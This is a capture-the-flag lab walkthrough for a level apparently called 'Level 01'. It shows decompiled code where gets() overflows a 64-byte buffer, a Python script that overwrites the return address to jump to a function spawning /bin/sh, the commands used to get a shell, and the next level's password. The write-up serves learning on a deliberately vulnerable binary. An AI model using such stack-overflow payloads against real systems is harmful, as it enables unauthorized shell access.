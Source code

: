 # Level 01 Walkthrough

## Binary analysis

Decompiling shows the program uses `gets()` to read user input into a 0x40 (64 bytes) buffer, but does not check the length. The function `run()` prints a message and calls `system("/bin/sh")`.

main:
```
08048480    int32_t main(int32_t argc, char** argv, char** envp)
08048496        char buf[0x40]
08048496        return gets(&buf)
```

run:
```
08048444    int32_t run()
0804846d        fwrite(buf: "Good... Wait what?\n", size: 1, count: 0x13, fp: stdout)
0804847f        return system(line: "/bin/sh")
```

## Exploitation

The program is vulnerable to a classic buffer overflow. We can overwrite the return address to call `run()`.

Python script to generate the payload:
```python
padding = b"A" * 76
payload = b"\x44\x84\x04\x08"  # Address of run()
chunk = padding + payload
with open('payload.txt', 'wb') as f:
    f.write(chunk)
```

## Commands used

```
cat /tmp/payload.txt - | ./level1
ls
cat /home/user/level2/.pass
```

## Result

After running the exploit, we get a shell as level2 and can read the password:

```
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Copy the password for the next level. 